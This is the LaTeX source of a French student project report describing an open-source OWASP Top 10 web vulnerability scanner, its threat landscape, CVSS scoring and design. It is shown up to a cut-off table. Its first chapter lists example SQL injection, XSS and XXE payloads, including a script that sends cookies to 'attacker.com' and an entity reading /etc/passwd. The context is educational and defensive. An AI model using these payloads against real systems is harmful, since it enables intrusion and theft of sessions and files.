% ============================================================
%  RAPPORT DE FIN D'ANNÉE — Scanner de Vulnérabilités Web
%  OWASP Top 10 — 2021
%  Auteurs : Fatima Ezzahrae Nouaimi & Salma El Kamili
%  EMSI — 2025–2026
% ============================================================
\documentclass[12pt,a4paper]{report}

% ── Encodage & langue ──────────────────────────────────────
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[french]{babel}

% ── Mise en page ───────────────────────────────────────────
\usepackage[top=2.5cm, bottom=2.5cm, left=3cm, right=2.5cm]{geometry}
\usepackage{setspace}
\onehalfspacing

% ── Typographie ────────────────────────────────────────────
\usepackage{lmodern}
\usepackage{microtype}

% ── Couleurs & graphiques ──────────────────────────────────
\usepackage[dvipsnames,table]{xcolor}
\definecolor{owaspblue}{HTML}{003366}
\definecolor{owaspred}{HTML}{B40000}
\definecolor{darkgray}{HTML}{505050}
\definecolor{lightblue}{HTML}{EBF0FA}
\definecolor{verylightblue}{HTML}{F5F8FF}
\definecolor{critred}{HTML}{FFE8E8}
\definecolor{headerbg}{HTML}{003366}
\definecolor{codebg}{HTML}{F4F4F4}
\definecolor{linkblue}{HTML}{1A56A0}

% ── En-têtes ───────────────────────────────────────────────
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\small\color{darkgray}\textit{École Marocaine des Sciences de l'Ingénieur}}
\fancyhead[R]{\small\color{darkgray}\textit{Rapport de Projet de Fin d'Année (PFA)}}
\fancyfoot[C]{\small\thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0pt}

% ── Titres de chapitres ────────────────────────────────────
\usepackage{titlesec}
\titleformat{\chapter}[block]
  {\normalfont\huge\bfseries\color{owaspblue}}
  {}
  {0pt}
  {\rule{\linewidth}{3pt}\\\vspace{2pt}}
  [\vspace{-6pt}\rule{\linewidth}{0.8pt}]
\titlespacing*{\chapter}{0pt}{10pt}{20pt}

\titleformat{\section}
  {\normalfont\Large\bfseries\color{owaspblue}}
  {\thesection}{1em}{}
  [\vspace{-4pt}{\color{owaspblue}\rule{\linewidth}{0.5pt}}]

\titleformat{\subsection}
  {\normalfont\large\bfseries\color{darkgray}}
  {\thesubsection}{1em}{}

\titleformat{\subsubsection}
  {\normalfont\normalsize\bfseries\color{darkgray}}
  {\thesubsubsection}{1em}{}

% ── Tables ─────────────────────────────────────────────────
\usepackage{booktabs}
\usepackage{tabularx}
\usepackage{longtable}
\usepackage{multirow}
\usepackage{array}
\usepackage{colortbl}
\renewcommand{\arraystretch}{1.35}

% ── Code ───────────────────────────────────────────────────
\usepackage{listings}
\lstset{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  frameround=tttt,
  rulecolor=\color{gray!40},
  numbers=left,
  numberstyle=\tiny\color{gray},
  numbersep=6pt,
  keywordstyle=\color{owaspblue}\bfseries,
  commentstyle=\color{gray}\itshape,
  stringstyle=\color{owaspred},
  showstringspaces=false,
  tabsize=2,
  xleftmargin=12pt,
  xrightmargin=4pt,
  captionpos=b,
  belowcaptionskip=4pt,
  literate={—}{{--}}2 {–}{{-}}1 {é}{{\'e}}1 {è}{{\`e}}1 {ê}{{\^e}}1
           {à}{{\`a}}1 {â}{{\^a}}1 {ô}{{\^o}}1 {ù}{{\`u}}1 {û}{{\^u}}1
           {î}{{\^i}}1 {ï}{{\"i}}1 {ë}{{\"e}}1 {ç}{{\c{c}}}1,
}
\lstdefinestyle{bash}{language=bash,morekeywords={sudo,apt,pip,python3,git}}
\lstdefinestyle{python}{language=python}
\lstdefinestyle{xml}{language=xml}

% ── Boîtes ─────────────────────────────────────────────────
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}
\newtcolorbox{infobox}[1][]{
  colback=gray!5, colframe=gray!60,
  fonttitle=\bfseries,
  coltitle=black, attach boxed title to top left={yshift=-2mm,xshift=4mm},
  boxed title style={colback=gray!40},
  #1
}
\newtcolorbox{critbox}{
  colback=gray!8, colframe=gray!70,
  fonttitle=\bfseries, title={$\blacktriangleright$~CRITIQUE},
}

% ── Listes ─────────────────────────────────────────────────
\usepackage{enumitem}
\setlist[itemize]{leftmargin=1.5em, itemsep=2pt}
\setlist[enumerate]{leftmargin=1.5em, itemsep=2pt}

% ── Liens hypertexte ───────────────────────────────────────
\usepackage[colorlinks=true, linkcolor=owaspblue,
            urlcolor=linkblue, citecolor=owaspblue,
            pdftitle={Scanner de Vulnérabilités Web — OWASP Top 10},
            pdfauthor={Fatima Ezzahrae Nouaimi, Salma El Kamili}]{hyperref}

% ── Figures ────────────────────────────────────────────────
\usepackage{graphicx}
\usepackage{grffile}
\usepackage{caption}
\graphicspath{{../screenshoots/}}
\captionsetup{font=small,labelfont={bf,color=owaspblue},
              labelsep=period, skip=6pt}

% ── Divers ─────────────────────────────────────────────────
\usepackage{pifont}
\usepackage{amssymb}
\usepackage{amsmath}
\usepackage{appendix}
\usepackage{pdflscape}
\usepackage{tocbibind}
\usepackage{emptypage}
\usepackage{pgfgantt}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric,arrows.meta,positioning,calc,fit,backgrounds}
\usepackage{pgfplots}
\pgfplotsset{compat=1.18}

% ── Macro utilitaires ──────────────────────────────────────
\newcommand{\owasp}[1]{\textbf{\textcolor{owaspblue}{#1}}}
\newcommand{\cvss}[2]{\textbf{\textcolor{owaspred}{CVSS #1}} (\textit{#2})}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\hdr}[1]{\cellcolor{gray!15}\textbf{#1}}
\newcommand{\rowA}{\rowcolor{gray!8}}
\newcommand{\rowB}{\rowcolor{white}}
\newcommand{\rowCrit}{\rowcolor{gray!15}}
\newcommand{\blank}{\underline{\hspace{3cm}}}
\newcommand{\rowcritred}{\rowcolor{gray!8}}

% ============================================================
\begin{document}

% ── Page de garde ──────────────────────────────────────────
\begin{titlepage}
  \thispagestyle{empty}
  \begin{center}
    \vspace*{0.5cm}
    % Logo (décommenter si le fichier emsi_logo.png est disponible)
    % \includegraphics[width=4cm]{emsi_logo.png}\\[0.6cm]
    {\large\bfseries École Marocaine des Sciences de l'Ingénieur}\\[0.1cm]
    {\small\color{darkgray} EMSI — Casablanca}\\[0.6cm]
    \rule{\linewidth}{2pt}\\[0.4cm]
    {\LARGE\bfseries\color{owaspblue} Projet de Fin d'Année}\\[0.3cm]
    \rule{\linewidth}{0.6pt}\\[0.8cm]

    {\Huge\bfseries\color{owaspblue} Scanner de Vulnérabilités Web}\\[0.4cm]
    {\Large\color{owaspred}\bfseries OWASP Top 10 — 2021}\\[0.5cm]

    {\normalsize\color{darkgray}
      Détection automatique des vulnérabilités critiques des applications web\\
      avec scoring CVSS v3.1 et génération de rapport HTML}\\[1.2cm]

    \rule{\linewidth}{0.6pt}\\[0.8cm]

    \begin{minipage}{0.5\textwidth}
      {\small\color{darkgray} Filière :}\\
      {\normalsize\bfseries Ingénierie Informatique et Réseaux (IIR)}
    \end{minipage}\\[1cm]

    \begin{minipage}{0.5\textwidth}
      {\small\color{darkgray} Réalisé par :}\\[0.2cm]
      {\large\bfseries\color{owaspblue} NOUAIMI Fatima Ezzahrae}\\
      {\large\bfseries\color{owaspblue} EL KAMILI Salma}
    \end{minipage}\\[0.8cm]

    \begin{minipage}{0.5\textwidth}
      {\small\color{darkgray} Encadrant PFA :}\\
      {\normalsize\bfseries M. [Nom de l'encadrant]}
    \end{minipage}\\[0.4cm]

    \begin{minipage}{0.5\textwidth}
      {\small\color{darkgray} Enseignante de Gestion de Projet :}\\
      {\normalsize\bfseries Mme. DAOUDI}
    \end{minipage}\\[0.4cm]

    \begin{minipage}{0.5\textwidth}
      {\small\color{darkgray} Enseignante d'Entrepreneuriat :}\\
      {\normalsize\bfseries Mme. BENYAHYA}
    \end{minipage}\\[1cm]

    \rule{\linewidth}{0.6pt}\\[0.4cm]
    {\normalsize\bfseries Année Universitaire : 2025/2026}
  \end{center}
\end{titlepage}

\clearpage

% ── Remerciements ──────────────────────────────────────────
\chapter*{Remerciements}
\addcontentsline{toc}{chapter}{Remerciements}
\thispagestyle{fancy}

Nous tenons à présenter nos remerciements les plus sincères à notre encadrant de ce Projet
de Fin d'Année, pour sa disponibilité, ses conseils précieux et son suivi rigoureux tout au
long de sa réalisation.

Nous remercions également l'ensemble des professeurs de l'École Marocaine des Sciences
de l'Ingénieur (EMSI), en particulier \textbf{Mme. DAOUDI} pour son accompagnement
méthodologique en Gestion de Projet Informatique, ainsi que \textbf{Mme. BENYAHYA}
pour son expertise et ses orientations avisées en Entrepreneuriat.

Nous profitons de cette occasion pour remercier la communauté open source, notamment
l'équipe OWASP dont le référentiel Top 10 constitue le fondement technique de ce projet,
ainsi que les développeurs de DVWA et des outils de test utilisés lors de la validation.

Nous tenons enfin à exprimer nos remerciements les plus chaleureux à nos familles et à nos
amis pour leurs encouragements, ainsi que pour leur soutien inconditionnel, à la fois
moral et académique.

\clearpage

% ── Résumé ─────────────────────────────────────────────────
\chapter*{Résumé}
\addcontentsline{toc}{chapter}{Résumé}
\thispagestyle{fancy}

Ce projet a pour objectif la conception et le développement d'un scanner de vulnérabilités
web automatisé, open source et modulaire, basé sur le référentiel \textbf{OWASP Top 10 2021}.
L'outil détecte automatiquement les neuf catégories de vulnérabilités les plus critiques des
applications web modernes.

L'architecture mise en place repose sur un pipeline d'orchestration développé en Python,
intégrant douze détecteurs spécialisés couvrant les injections (SQLi, XSS, XXE), les
failles de contrôle d'accès (IDOR, Path Traversal), les mauvaises configurations (SSRF,
Upload non sécurisé) et les échecs d'authentification. Chaque vulnérabilité détectée est
automatiquement scorée selon le standard \textbf{CVSS v3.1}, et un rapport HTML professionnel
est généré à l'issue du scan.

La validation a été effectuée sur des environnements de test dédiés : une application Flask
vulnérable développée à cet effet, ainsi que \textbf{DVWA} (Damn Vulnerable Web Application)
déployée sur machines virtuelles. Les résultats démontrent une précision de détection
élevée sur l'ensemble des catégories OWASP ciblées.

\textbf{Mots-clés :} Scanner de vulnérabilités, OWASP Top 10, CVSS v3.1, Python, SQLi, XSS,
SSRF, IDOR, XXE, DVWA, Sécurité applicative web.

\clearpage

% ── Table des matières ─────────────────────────────────────
\tableofcontents
\clearpage

\listoftables
\addcontentsline{toc}{chapter}{Liste des tableaux}
\clearpage

\listoffigures
\addcontentsline{toc}{chapter}{Liste des figures}
\clearpage

% ============================================================
\chapter*{Introduction}
\addcontentsline{toc}{chapter}{Introduction}
\markboth{Introduction}{}
% ============================================================

\section*{Contexte général}

Dans un monde où la transformation numérique s'accélère, la cybersécurité est devenue
un enjeu stratégique majeur pour les organisations de toutes tailles. Les attaques
informatiques se multiplient et touchent aussi bien les grandes entreprises que les
institutions académiques. Les applications web représentent aujourd'hui le vecteur
d'attaque le plus répandu, avec \textbf{43~\%} des violations de données impliquant
une couche applicative selon le rapport Verizon DBIR 2023.

Face à la sophistication croissante des cybermenaces — injections SQL, cross-site scripting,
falsification de requêtes, contournements de contrôle d'accès — les organisations ne peuvent
plus se contenter d'audits manuels ponctuels. Il est désormais indispensable d'automatiser
la détection des vulnérabilités et de l'intégrer dans les cycles de développement logiciel.

\section*{Problématique}

Comment développer un scanner de vulnérabilités web automatisé, open source et modulaire,
capable de détecter les dix catégories de vulnérabilités définies par l'OWASP Top 10 2021,
de scorer chaque faille selon le standard CVSS v3.1, et de produire un rapport exploitable
par les équipes de développement et de sécurité ?

\section*{Objectifs du projet}

Ce projet s'inscrit dans le cadre du cursus de l'EMSI et vise à :

\begin{itemize}
  \item Développer un moteur de scan modulaire couvrant les 9 catégories OWASP les plus critiques ;
  \item Implémenter 12 détecteurs spécialisés (SQLi, XSS, SSRF, IDOR, XXE, Path Traversal, etc.) ;
  \item Intégrer le scoring automatique CVSS v3.1 pour chaque vulnérabilité détectée ;
  \item Générer un rapport HTML professionnel à l'issue de chaque analyse ;
  \item Valider l'outil sur des environnements de test dédiés (Flask app, DVWA/VMs).
\end{itemize}

\section*{Organisation du rapport}

Ce rapport est structuré en cinq chapitres. Le premier chapitre présente l'état de l'art :
contexte des cybermenaces, panorama des vulnérabilités OWASP, comparaison des outils
existants et positionnement de notre solution. Le deuxième chapitre expose la conception
complète : architecture, diagrammes UML et choix technologiques. Le troisième chapitre
détaille la réalisation : implémentation des modules, suite de tests et études de cas.
Le quatrième chapitre présente la gestion de projet : cycle de vie, planification, diagrammes
de Gantt, ressources et budget. Enfin, le cinquième chapitre aborde la dimension
entrepreneuriale avec le Business Model Canvas et l'analyse financière.
% ============================================================
\chapter{État de l'Art}
% ============================================================

\section{Contexte et Enjeux de la Sécurité des Applications Web}

La sécurité des applications web est aujourd'hui au cœur des préoccupations des entreprises,
des gouvernements et des organisations internationales. L'explosion du commerce électronique,
des services cloud, des API REST et des architectures microservices a multiplié exponentiellement
la surface d'attaque exposée sur Internet. Contrairement aux systèmes fermés, les applications
web sont par nature accessibles à tous, rendant leur sécurisation particulièrement complexe.

\subsection{Évolution des Cybermenaces}

Les cyberattaques ciblant les applications web ont connu une évolution spectaculaire en termes
de volume, de sophistication et d'impact. Les premières injections SQL documentées datent de 1998,
mais le phénomène s'est massifié avec l'avènement du Web 2.0. Les ransomwares ciblant les
applications web ont connu une croissance de \textbf{95~\%} entre 2022 et 2023 selon CrowdStrike.

\begin{table}[h!]
\centering
\caption{Chronologie des cyberattaques majeures liées aux applications web}
\begin{tabular}{>{\columncolor{lightblue}}p{1.5cm}p{5.5cm}p{5.5cm}}
\toprule
\hdr{Année} & \hdr{Événement majeur} & \hdr{Impact} \\
\midrule
1998 & Premières injections SQL documentées & Accès non autorisé à des BDD \\
\rowB 2003 & Création de l'OWASP Top 10 (v1) & Standardisation des risques web \\
2010 & Stuxnet — première cyberarme & Sabotage d'infrastructures critiques \\
\rowB 2017 & WannaCry — 230~000 victimes & 4 milliards USD de pertes mondiales \\
2020 & SolarWinds — supply chain attack & 18~000 organisations compromises \\
\rowB 2021 & Log4Shell (CVE-2021-44228) & Milliards de serveurs vulnérables \\
2023 & MOVEit Transfer — SQLi massive & 2~500+ organisations touchées \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Impact Économique et Réglementaire}

Les violations de données liées aux applications web engendrent des coûts colossaux. Selon le
rapport IBM Cost of a Data Breach 2023, le coût moyen d'une violation de données est de
\textbf{4,45 millions de dollars}, avec une augmentation de 15,3~\% sur trois ans. Les secteurs
les plus touchés sont la santé (10,9~M\$), la finance (5,9~M\$) et le pharmaceutique (4,8~M\$).

\begin{infobox}[title={Chiffres clés de la cybersécurité web en 2023}]
\begin{itemize}[nosep]
  \item \textbf{4,45~M\$} : coût moyen d'une violation de données (IBM, 2023)
  \item \textbf{74~\%} des violations impliquent une interaction humaine ou une faille applicative
  \item \textbf{43~\%} des vecteurs d'attaque initiaux passent par les applications web
  \item \textbf{280 jours} : délai moyen pour identifier et contenir une violation de données
  \item \textbf{6~000 Md\$} : coût annuel estimé de la cybercriminalité mondiale d'ici 2025
\end{itemize}
\end{infobox}

\section{Panorama des Cybermenaces Web}

\subsection{Attaques Man-in-the-Middle (MITM)}

Les attaques Man-in-the-Middle (MITM) constituent une menace fondamentale pour la confidentialité
des communications web. Un acteur malveillant s'interpose entre le client et le serveur pour
intercepter, lire ou modifier les données en transit.

\begin{table}[h!]
\centering
\caption{Types d'attaques MITM et protections associées}
\begin{tabular}{p{3.5cm}p{4cm}p{5cm}}
\toprule
\hdr{Type MITM} & \hdr{Vecteur} & \hdr{Protection} \\
\midrule
ARP Spoofing & Réseau local (LAN) & ARP dynamique sécurisé, VLAN \\
\rowB SSL Stripping & HTTP non sécurisé & HSTS + preloading \\
DNS Spoofing & Résolution de noms & DNSSEC, DNS over HTTPS \\
\rowB Rogue Access Point & Wi-Fi public & WPA3, VPN, 802.1X \\
BGP Hijacking & Infrastructure Internet & RPKI, BGPsec \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Attaques par Injection}

Les attaques par injection représentent la menace la plus persistante et la plus documentée dans
l'histoire de la sécurité web. Elles exploitent le fait qu'une application traite des données
non fiables comme des instructions exécutables (SQL, HTML/JS, XML, commandes OS, LDAP\ldots).

\subsection{Attaques sur l'Authentification}

Les failles d'authentification et de gestion de session permettent aux attaquants d'usurper
l'identité d'utilisateurs légitimes via le brute force, l'utilisation de credentials par défaut,
le vol de tokens de session, ou le contournement de mécanismes d'authentification.

\subsection{Attaques sur le Contrôle d'Accès}

Les vulnérabilités de contrôle d'accès (OWASP A01) permettent à un utilisateur d'accéder à des
ressources non autorisées. L'IDOR (Insecure Direct Object Reference) en est l'exemple classique :
changer l'ID dans l'URL pour accéder au profil d'un autre utilisateur.

\section{Le Référentiel OWASP Top 10 (2021)}

L'OWASP (Open Web Application Security Project) est une fondation fondée en 2001, réunissant
une communauté mondiale de plus de 250~000 membres. L'édition 2021 a introduit trois nouvelles
catégories (A04 Insecure Design, A08 Software \& Data Integrity, A10 SSRF) suite à l'analyse
de données de plus de 500~000 applications.

\begin{table}[h!]
\centering
\caption{OWASP Top 10 — Édition 2021}
\begin{tabular}{p{1.2cm}p{4cm}p{1.5cm}p{5.5cm}}
\toprule
\hdr{Code} & \hdr{Catégorie} & \hdr{Prévalence} & \hdr{Description} \\
\midrule
\rowA A01 & Broken Access Control & 94~\% & Contrôle d'accès insuffisant — 3,81~M d'occurrences \\
A02 & Cryptographic Failures & 70~\% & Mauvais chiffrement ou absence de TLS \\
\rowA A03 & Injection & 94~\% & SQLi, XSS, SSTI — entrées interprétées comme commandes \\
A04 & Insecure Design & 40~\% & Failles architecturales, absence de Threat Modeling \\
\rowA A05 & Security Misconfiguration & 90~\% & Headers manquants, services inutiles actifs \\
A06 & Vulnerable Components & 27~\% & Dépendances avec CVE connues (Log4Shell\ldots) \\
\rowA A07 & Auth \& Session Failures & 15~\% & Credentials par défaut, sessions sans expiration \\
A08 & Software \& Data Integrity & 10~\% & Désérialisation non sécurisée, CI/CD compromis \\
\rowA A09 & Logging \& Monitoring & 19~\% & Journalisation insuffisante — 280 jours de délai \\
A10 & SSRF & 8~\% & Requêtes côté serveur vers ressources internes \\
\bottomrule
\end{tabular}
\end{table}

\section{Vulnérabilités Ciblées : Mécanismes et Impacts}

\subsection{SQL Injection (SQLi) — OWASP A03}

L'injection SQL survient lorsque des données utilisateur non validées sont incorporées directement
dans des requêtes SQL. La première description formelle date de 1998 (Jeff Forristal).

\begin{lstlisting}[style=bash, caption={Exemples de payloads SQL Injection}]
-- Authentification bypass classique
' OR '1'='1'--
admin'--

-- Extraction de données (UNION-based)
' UNION SELECT username, password, NULL FROM users--

-- Time-based (MySQL)
' AND SLEEP(5)--

-- Time-based (PostgreSQL)
' OR pg_sleep(5)--
\end{lstlisting}

\textbf{Impact :} lecture complète de la BDD, contournement de l'authentification, exécution
de commandes OS. \cvss{9.8}{Critique}.

\subsection{Cross-Site Scripting (XSS) — OWASP A03}

Le XSS permet d'injecter du JavaScript malveillant dans les pages web vues par d'autres
utilisateurs. Trois variantes : \textbf{Réfléchi} (URL), \textbf{Persistant} (base de données),
\textbf{DOM-based} (côté client sans serveur).

\begin{lstlisting}[language=html, caption={Exemples de payloads XSS}]
<!-- XSS basique -- vol de cookie -->
<script>document.location='http://attacker.com/?c='+document.cookie</script>

<!-- XSS -- bypass de filtres -->
<img src=x onerror=alert(1)>
<svg onload=alert(document.domain)>
\end{lstlisting}

\subsection{IDOR — Broken Access Control (OWASP A01)}

L'Insecure Direct Object Reference se produit lorsqu'une application expose des références
directes à des objets internes sans vérifier l'autorisation.

\begin{lstlisting}[style=bash, caption={Exemples d'IDOR}]
GET /api/users/1337/profile  -> données de l'utilisateur 1337
GET /api/users/1338/profile  -> données d'un autre utilisateur (IDOR!)
\end{lstlisting}

\subsection{SSRF — Server-Side Request Forgery (OWASP A10)}

Le SSRF force le serveur web à effectuer des requêtes HTTP vers des destinations contrôlées par
l'attaquant. Dans les environnements cloud, cela permet d'accéder aux services de métadonnées
d'instance qui exposent des credentials IAM. \cvss{8.5}{Élevé}.

\subsection{Path Traversal (OWASP A01)}

Le Path Traversal exploite une validation insuffisante des chemins de fichiers pour accéder à
des fichiers arbitraires sur le serveur (\code{/etc/passwd}, \code{/etc/shadow}, clés SSH).

\subsection{XXE — XML External Entity (OWASP A05)}

Lorsqu'un parseur XML traite des entités externes, il peut divulguer des fichiers locaux ou
effectuer des requêtes SSRF. \cvss{8.2}{Élevé}.

\begin{lstlisting}[language=xml, caption={Payload XXE — lecture de fichier}]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request><username>&xxe;</username></request>
\end{lstlisting}

\subsection{Upload de Fichier Non Sécurisé (OWASP A04)}

Un upload mal validé permet d'uploader un web shell (PHP, JSP, ASP) directement exécutable
par le serveur. \cvss{8.8}{Élevé}.

\subsection{Failures d'Authentification (OWASP A07)}

Credentials par défaut, absence de rate limiting, mots de passe en clair, sessions sans
expiration, absence de MFA. \cvss{9.8}{Critique}.

\section{Outils de Scan Existants — Analyse Comparative}

\begin{table}[h!]
\centering
\caption{Comparaison détaillée des outils de scan de vulnérabilités web}
\begin{tabular}{p{2.5cm}p{1.8cm}p{1.8cm}p{1.4cm}p{1.8cm}p{2cm}}
\toprule
\hdr{Critère} & \hdr{OWASP ZAP} & \hdr{Burp Suite} & \hdr{Nikto} & \hdr{Acunetix} & \hdr{Notre outil} \\
\midrule
Licence        & Open Source & Freemium    & Open Source & Commercial        & Open Source \\
\rowA Prix     & Gratuit     & 0–449\$/an  & Gratuit     & 5~000–25~000\$/an & Gratuit \\
SQLi           & Oui         & Oui         & Non         & Oui               & \textbf{Oui} \\
\rowA XSS      & Oui         & Oui         & Non         & Oui               & \textbf{Oui} \\
SSRF           & Partiel     & Oui         & Non         & Oui               & \textbf{Oui} \\
\rowA Score CVSS & Non       & Non         & Non         & Oui               & \textbf{Oui} \\
Python natif   & Non         & Non         & Non         & Non               & \textbf{Oui} \\
\rowA Léger ($<$50~Mo) & Non & Non        & Oui         & Non               & \textbf{Oui} \\
\bottomrule
\end{tabular}
\end{table}

\section{Standards de Scoring : CVSS v3.1}

Le \textbf{CVSS v3.1} (Common Vulnerability Scoring System) est un standard industriel ouvert
pour évaluer la sévérité des vulnérabilités. Notre outil utilise les scores Base.

\begin{table}[h!]
\centering
\caption{Niveaux de sévérité CVSS v3.1 et délais de remédiation}
\begin{tabular}{p{2cm}p{2.5cm}p{4cm}p{3.5cm}}
\toprule
\hdr{Sévérité} & \hdr{Score} & \hdr{Action} & \hdr{Délai} \\
\midrule
\rowcolor{gray!15} Critique & 9.0 – 10.0 & Correction immédiate & $<$ 24 heures \\
\rowcolor{gray!8} Élevé   & 7.0 – 8.9  & Correction prioritaire & $<$ 7 jours \\
\rowcolor{white} Moyen  & 4.0 – 6.9  & Correction planifiée & $<$ 30 jours \\
\rowB Faible                & 0.1 – 3.9  & Correction à terme & $<$ 90 jours \\
\bottomrule
\end{tabular}
\end{table}

\section{Techniques de Détection Automatique}

\subsection{Crawling et Découverte d'Endpoints}
La première étape est la découverte des surfaces d'attaque : URLs, formulaires, paramètres
GET/POST et endpoints d'API. Notre outil utilise un crawling statique \textbf{BFS}
(Breadth-First Search).

\subsection{Scan Actif vs Scan Passif}
\begin{itemize}
  \item \textbf{Scan passif :} analyse le trafic sans générer de requêtes supplémentaires.
    Non intrusif, limité en couverture.
  \item \textbf{Scan actif :} envoie des requêtes forgées (payloads). Notre approche.
\end{itemize}

\subsection{Détection par Signatures}
Notre moteur utilise des expressions régulières compilées (\code{re} Python) pour identifier
des marqueurs caractéristiques (14 patterns d'erreurs SQL couvrant MySQL, PostgreSQL, MSSQL,
Oracle et SQLite).

\section{Synthèse et Positionnement}

\begin{infobox}[title={Positionnement de notre scanner OWASP Top 10}]
\begin{itemize}[nosep]
  \item 100~\% open source et gratuit — aucune licence requise
  \item Écrit en Python pur — intégrable dans tout workflow Python / CI-CD
  \item Couverture 9/10 catégories OWASP Top 10 2021
  \item Scoring automatique CVSS v3.1 pour chaque vulnérabilité détectée
  \item Rapport HTML autonome — lisible sans installation logicielle
  \item Architecture modulaire — ajout facile de nouveaux détecteurs
  \item 42 tests unitaires — qualité et fiabilité garanties
\end{itemize}
\end{infobox}

% ────────────────────────────────────────────────────────────
\section{Conclusion}
% ────────────────────────────────────────────────────────────

Ce chapitre a dressé un panorama complet de la sécurité des applications web. Nous avons
analysé l'évolution des cybermenaces, présenté les dix catégories du référentiel OWASP Top 10
2021, comparé les outils de scan existants sur quatorze critères, et expliqué le standard de
scoring CVSS v3.1. Cette étude préalable justifie le positionnement de notre scanner :
open source, modulaire, intégrant le scoring CVSS automatique, et couvrant 9 catégories sur
10 de l'OWASP Top 10 2021. Le chapitre suivant présente la conception détaillée de notre
solution.

% ============================================================
\chapter{Conception}
% ============================================================

Ce chapitre présente la conception détaillée de notre scanner. La conception suit les principes
du Clean Architecture : séparation des préoccupations, injection de dépendances, testabilité
maximale.

\section{Architecture Générale du Système}

Notre scanner adopte une \textbf{architecture en pipeline à cinq étapes} :

\[
\texttt{Crawl} \;\longrightarrow\; \texttt{Detect} \;\longrightarrow\; \texttt{Deduplicate}
\;\longrightarrow\; \texttt{Evaluate} \;\longrightarrow\; \texttt{Report}
\]

\begin{landscape}
\begin{figure}[p]
\centering

\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{diagram1_architecture.png}
\caption{Architecture en pipeline du scanner de vulnérabilités}
\end{figure}
\end{landscape}

\subsection{Principes de Conception Retenus}

\begin{itemize}
  \item \textbf{SRP} (Responsabilité Unique) : chaque module a une responsabilité unique et
    clairement définie.
  \item \textbf{OCP} (Ouvert/Fermé) : ajouter un détecteur n'impose aucune modification du code
    existant.
  \item \textbf{LSP} (Liskov) : tous les détecteurs exposent la même interface
    \code{scan(endpoint) -> list[Vulnerability]}.
\end{itemize}

\subsection{Patterns de Conception Utilisés}

\begin{table}[h!]
\centering
\caption{Patterns de conception utilisés dans le scanner}
\begin{tabular}{p{3.5cm}p{4cm}p{5cm}}
\toprule
\hdr{Pattern} & \hdr{Module} & \hdr{Rôle} \\
\midrule
Template Method & BaseDetector → SQLiDetector & Squelette \code{scan\_all()} \\
\rowA Strategy & ALL\_DETECTORS dict & Sélection dynamique des détecteurs \\
Factory & detectors/\_\_init\_\_.py & Instanciation par nom (string → classe) \\
\rowA Pipeline & Scanner.core.run() & Orchestration des étapes \\
\bottomrule
\end{tabular}
\end{table}

\section{Diagramme de Cas d'Utilisation}

\begin{landscape}
\begin{figure}[p]
\centering

\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{diagram2_use_cases.png}
\caption{Diagramme de cas d'utilisation du scanner}
\end{figure}
\end{landscape}

\begin{table}[h!]
\centering
\caption{Description détaillée des cas d'utilisation}
\begin{tabular}{p{0.8cm}p{3.5cm}p{2cm}p{3cm}p{3cm}}
\toprule
\hdr{ID} & \hdr{Cas d'utilisation} & \hdr{Acteur} & \hdr{Précondition} & \hdr{Postcondition} \\
\midrule
UC1 & Lancer un scan complet & Analyste & URL cible accessible & Rapport HTML généré \\
\rowA UC2 & Configurer les options & Analyste & — & Options enregistrées \\
UC3 & S'authentifier & Analyste & Credentials valides & Session HTTP auth. \\
\rowA UC4 & Exporter le rapport & Analyste & Scan terminé & Fichier .html sauvegardé \\
UC5 & Crawler l'application & Système & URL de base & list[Endpoint] \\
\rowA UC6 & Détecter les vulnérabilités & Système & Endpoints disponibles & list[Vulnerability] \\
